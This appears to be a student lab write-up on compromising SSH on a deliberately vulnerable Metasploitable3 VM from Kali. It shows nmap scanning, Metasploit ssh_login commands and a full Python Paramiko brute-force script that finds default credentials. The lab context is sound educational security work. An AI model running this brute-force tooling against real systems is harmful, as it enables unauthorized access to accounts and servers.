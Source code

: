 # Phase 1: Setup and Compromise the Service

## Overview

In this phase, we configured two virtual environments to simulate an attack scenario. The target machine (Metasploitable3) was configured with several known vulnerable services, and the attacker machine (Kali Linux) was used to compromise one of these services. The selected service for this phase was **SSH**, which was successfully compromised using both Metasploit and a custom script.

---

## 1. Environment Setup

### 🖥 Victim Environment: Metasploitable3
- **Platform:** VirtualBox on Windows
- **IP Adress**: 192.168.100.138
  ![لقطة شاشة 2025-05-02 175018](https://github.com/user-attachments/assets/94942fcc-b660-42e3-8962-667f8791f449)


-**Vulnerable Services Running:**
We executed the command nmap -sV 192.168.100.138 to perform a service version scan on the target machine. This allowed us to enumerate the active services and identify potential vulnerabilities, ultimately helping us select SSH as the target for exploitation.

![لقطة شاشة 2025-05-02 174655](https://github.com/user-attachments/assets/557cb2b3-9eec-4926-a4d0-caa940052cd1)


### 💻 Attacker Environment: Kali Linuxs
- **Platform:** VirtualBox on Windows
- **IP Adress**: 192.168.100.133
  
![لقطة شاشة 2025-05-02 174402](https://github.com/user-attachments/assets/663c2f26-6c43-4220-9bc8-1f94b2910df6)


***Ping from kali to Metaspotable is Sucessful*** and 
***Ping from Metaspotable to kali is Sucessful*** 


#### Tools Used:
- Metasploit Framework
- Nmap
- Python 3 with Paramiko library
    
---

## 2. Selected Vulnerable Service

- **Targeted Service:** SSH (Port 22)  
- **Reason for Selection:** SSH on Metasploitable3 is configured with weak and default credentials, making it vulnerable to brute-force attacks or password reuse exploits.

---

## Service Enumeration

We scanned the target machine using `nmap` to identify open ports and determine which services were running.

Command used:
```
nmap -sV 192.168.100.138
```
![لقطة شاشة 2025-05-02 174655](https://github.com/user-attachments/assets/3e9d89d4-12de-4791-a8d7-7e17c015532c)

## Task 1.1: Compromise Using Metasploit

Steps to exploit the SSH service:

First: Create a file for usernames and passwords: 

![لقطة شاشة 2025-05-02 181530](https://github.com/user-attachments/assets/103cc98c-6273-4264-be51-b00c8f8f042b)

Then, we start to exploit: 
1. Launch Metasploit:
   ```
   msfconsole
   ```
   ![لقطة شاشة 2025-04-29 230224](https://github.com/user-attachments/assets/2c38ce71-aa71-4c33-abf3-d9fe9f5d8b15)

2. Search for the SSH login module:
   ```
   search ssh_login
   ```
3. Use the auxiliary scanner:
   ```
   use auxiliary/scanner/ssh/ssh_login
   ```
4. Configure the module:
   ```
   set RHOSTS 192.168.56.101
   set USER_FILE user.txt
   set PASS_FILE pass.txt
   run
   ```
5. Successful login confirms service compromise.
-Screen shot shown all the above steps:

![لقطة شاشة 2025-05-02 174003](https://github.com/user-attachments/assets/66bba784-ed18-418d-b479-883ae5f121df)

## Task 1.2 – Compromise Using Custom Script

# Custom SSH Brute-Force Script (Python + Paramiko)

We create the python script using 
```
nano ssh_bruteforce.py
```
This script automates brute-force login attempts to the SSH service using combinations from `user.txt` and `pass.txt`.

```python
import paramiko
import time

host = "192.168.100.138"
port = 22
user_file = "/home/bdoor/user.txt"
pass_file = "/home/bdoor/pass.txt"

def try_login(username, password):
    ssh = paramiko.SSHClient()
    ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
    try:
        ssh.connect(host, port=port, username=username, password=password, timeout=5)
        print(f"[+] SUCCESS: {username}:{password}")
        ssh.close()
        return True
    except paramiko.AuthenticationException:
        print(f"[-] Invalid:  {username}:{password}")
    except paramiko.SSHException as e:
        print(f"[!] SSH Error: {e}")
    except Exception as e:
        print(f"[!] Other Error: {e}")
    return False

with open(user_file, "r") as users:
    for user in users:
        user = user.strip()
        with open(pass_file, "r") as passwords:
            for pwd in passwords:
                pwd = pwd.strip()
                if try_login(user, pwd):
                    exit(0)
                time.sleep(1)  # Wait 1 second to avoid banner issues

```

The script was able to successfully brute-force the SSH credentials. As shown in the last line, it identified the correct username and password combination: vagrant:vagrant.




![لقطة شاشة 2025-05-02 181745](https://github.com/user-attachments/assets/0bd22377-6781-4f6e-8bbc-7b5b4d0df463)


![لقطة شاشة 2025-05-02 181753](https://github.com/user-attachments/assets/d415a8f8-0df2-4979-85a7-52e538e8500d)

---

## 5. Conclusion

We successfully exploited the SSH service running on Metasploitable3 using:
1. **Metasploit**, leveraging known default credentials.
2. A **custom Python script**, automating the brute-force and login process.



